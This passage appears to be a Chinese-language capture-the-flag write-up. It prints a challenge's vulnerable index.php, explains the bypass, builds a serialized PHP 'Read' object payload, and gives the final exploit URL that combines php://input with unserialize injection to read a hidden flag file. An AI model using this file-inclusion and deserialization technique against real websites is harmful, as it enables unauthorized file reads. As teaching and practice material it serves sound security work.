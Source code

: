 看一下 index.php 源代码

```php
<?php
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        if(preg_match("/f1a9/",$file)){  // 直接过滤掉 fla9
            exit();
        }else{
            include($file); //class.php
            $pass = unserialize($pass);  // 反序列化再输出
            echo $pass;
        }
    }else{
        echo "you are not admin ! ";
    }
?>
// unserialize()
```

总结一下思路，flag 就隐藏在 f1a9.php 里面，但是无法直接读取 f1a9.php 内容(被preg_match过滤)，只能通过Read 这个类中 __tostring() 方法，而这个方法再创建对象时就会被调用。能作为输入接口的就只有 pass 了，pass 这里又会反序列化再输出，所以利用 echo $pass; 来创建对象就可以了。

创建序列化对象

```php
<?php
    class Read{
    	public $file;
	}

	$a = new Read();
	$a->file = "f1a9.php";
	$a = serialize($a);
	print_r($a);
?>
// O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

最终执行

```shell
http://120.78.187.100:8081/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

# 再 post 一个 "the user is admin"
```



### Easy waf
